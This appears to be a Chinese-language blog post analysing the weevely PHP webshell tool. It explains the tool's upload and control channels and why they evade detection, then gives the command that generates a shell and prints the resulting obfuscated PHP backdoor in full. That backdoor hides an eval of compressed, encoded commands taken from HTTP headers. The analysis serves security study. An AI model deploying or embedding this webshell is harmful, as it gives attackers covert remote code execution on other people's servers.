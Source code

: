 ```yaml
---
layout: post
title: "weevely黑客工具分析"
author: alpha1e0
categories: 渗透测试
tags: 渗透测试
---
```



## 1 简介

weevely是一个常用的PHP webshell相关的黑客工具，核心功能有两个：

1. 生成php webshell。只要指定密码字段，就能生成一个隐蔽性极好的隐蔽webshell
2. 连接远端的php webshell。提供密码和url即可访问webshell，访问方式类似于telnet

现如今，“小webshell” + “控制端”的方式是非常流行的一种web攻击方式，在本文中我们将木马的上传通道称为“**数据通道**”，将客户端和木马的连接通道称为“**控制通道**”

在国内，“一句话webshell” + “中国菜刀”是最常见的搭配，对这种攻击组合的检测上也对应得分为“webshell检测”，“（中国菜刀）webshell控制通道”检测两个方面，相对来讲“一句话webshell”更难被安全工具检测到，而“中国菜刀控制通道”由于特征明显，很容易被拦截

weevely的最大特点在于其隐蔽性，不论数据通道和控制通道都做到很大程度的隐蔽，很难被安全工具发现。

本文主要介绍weevely的工作原理。

---

## 2 示例

使用weevely生成一个隐蔽木马。

    python weevely.py generate 123 shell/wee.php

以上命令生成了一个名为“wee.php”的webshell，密码为123，木马文件如下：
{% highlight php %}
    <?php
    $C='or($=*i==*0=*;$=*i<$l;){for($j=0;($j<$c&=*&$i<$=*l);$j=*++,$i++=*=*){$o.==*$t=*{$i}^$k{$=*j};}}retu=*rn $o;}$';
    $w='ch_al=*l("=*/([\\w])[\\w-]+(?=*:;q==*0=*.([=*\\d]))?,?=*/",$ra,$m);if=*($q&&$m)=*{@s=*ession_s=*=*tart()';
    $J='md5($i.$k=*h),0,3=*));=*$f=$=*sl($ss(m=*d5($=*i.$=*kf),0,3));$p=*="";for=*=*($z=1;$z<=*count(=*$m[1]);$z';
    $o='=*;$s==*&$_SESSION;$ss="=*subst=*=*r";$s=*l="strtol=*ower";$i=$m=*[1]=*[0=*].$m[1][1];=*$h=$sl(=*$s=*s(';
    $X='t()=*;@=*ev=*al(@gzuncom=*press(@=*x(@b=*ase64_=*decode=*(preg_rep=*lace(ar=*ray("/_/=*"=*,"=*/-/"),a';
    $A='=*++)$p=*.=$q[$m[=*2]=*[$=*z=*=*]];if(st=*rpos(=*$p=*,$h)===0){$s[$i]==*"";$p=$ss=*($p,3);=*}if(=*array';
    $G='a=*se64_encode(=*x(gzco=*mpre=*ss(=*$o),=*=*$k));print("=*<$k>$d<=*/$=*=*k>");@sess=*ion_destroy();}}}}';
    $M=str_replace('zd','','crzdezdatezdzdzd_fzdunction');
    $F='a)=*{$u=p=*arse_url=*($r=*r);parse_=*s=*tr($u["q=*uery"],$=*q);$q=*=*=ar=*ray_va=*lues($q);p=*r=*eg_mat';
    $z='r=*ray("/",=*"+"),$ss($=*s=*[$i],=*0,$e)=*)),$k)=*));$o==*ob_get_co=*ntents(=*);ob_end_=*=*clean()=*;$d=b';
    $I='$kh="20=*2c";=*$kf="b96=*2"=*;funct=*ion x(=*$t,$k){$c=strl=*en($k)=*;$l=*=strlen=*($t);$o==*"=*";f';
    $y='=*r=$_SERV=*ER;$rr=*=@$r=*=*["HTTP_REFERER"=*];$ra==*=*@=*$r["HT=*TP_ACCEPT_LANG=*UAGE"];i=*f($=*rr&&$r';
    $r='_key_exist=*s(=*$i,$s)){$=*s[$=*i=*].=$p;$e=s=*trpos=*=*($s[$i],$f)=*;if($e){=*$k=$kh.$k=*f;ob_=*star';
    $l=str_replace('=*','',$I.$C.$y.$F.$w.$o.$J.$A.$r.$X.$z.$G);
    $t=$M('',$l);$t();
    ?>
{% endhighlight %}